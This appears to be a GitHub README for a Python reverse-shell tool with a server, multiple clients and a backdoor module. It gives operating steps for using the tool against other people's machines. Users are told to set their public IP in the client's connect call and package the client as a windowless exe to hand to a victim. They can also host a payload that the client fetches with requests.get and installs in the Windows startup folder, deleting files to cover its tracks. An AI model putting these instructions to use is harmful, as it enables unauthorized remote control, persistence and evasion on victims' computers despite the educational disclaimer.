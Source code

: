 ![](http://myspecialsite.host20.uk/Icon%20image.png)
***
# Overview
This is a hacking tool to get a reverse shell.

This is tool is for educational purpose only!

The responsibility on every use of this tool is on the user only!

Disclaimer: This reverse shell should only be used in the lawful, remote administration of authorized systems. Accessing a computer network without authorization or permission is illegal. 
***
## Installation 
Type in the command line `pip install -r requirements.txt` to install all required modules
***
## How to use
Make sure that you have port forwarding on port 42424 (you can change it if you want) to your computer.
Also make sure that you enable the port on your local firewall (inbound and outbound)
***
## Client
Make sure that you have you public IP address there on `s.connect((%PUBLIC IP ADDRESS%, 42424))`
***
## Convert client.py to .exe
Type in the terminal `pyinstaller -w --onefile "Multiple Clients/client.py"`.
Then you can delete the .spec file and the build folder.
The exe will be in "dist" folder.
 ***
## Using the tool
Start **server.py** using the following command:
`python3 server.py`
and wait for connection.

To see of all your connections type `snake> list` in the interactive prompt.

To send commands to one of your connections type `select` and the ID number of the connection.

E.X.:

`snake> select 0`

When you are in the reverse shell of one of your connection, you can type `getos` to see what OS is running on your connection machine.

To get a list of all the commands of the interactive prompt and other special commands, type `help` in the interactive prompt.

If you want to quit from your connection, type `quit` and then you'll be back in the interactive prompt.

If you want to quit from the entire program type `shutdown` in the interactive prompt.
***
# Backdoor
If you want to plant also a backdoor give the user an exe version of the **client.py** from the folder **"Multi client and backdoor"**.

Upload the file **backdoor.py** to a server that you do a GET request to and change the address in **client.py** from 
`request = requests.get("http://webserver.com/backdoor.py")` to
`request = requests.get("%YOUR WEB SERVER ADDRESS%")`
## how the backdoor works
When the user open the program (exe version of **client.py**) the program will have 3 processes:
* The main process - The GUI
* The commands process - connects to the server and executes commands
* The backdoor process - get the code from the webserver and creates an exe version of it and saves it the startup folder (only from Windows machines for now)
What the backdoor process is exactly doing is, it saves the code from the webserver and saves on a file names **temp.py** (the file will be automatically removed), then a the process executes a pyinstaller command which creates an exe version of the backdoor in the startup folder which will make start automatically every time the machine starts and removes all unnecessary folders and files to cover tracks.

To change the name of the backdoor file find this line:
`name = "backdoor"  # Here you can change the name of the backdoor app` 
and change the value to the name you want
***
## Collaboration
If you want to collaborate with me about this project or about any other project, contact me on **ofer026@gmail.com**
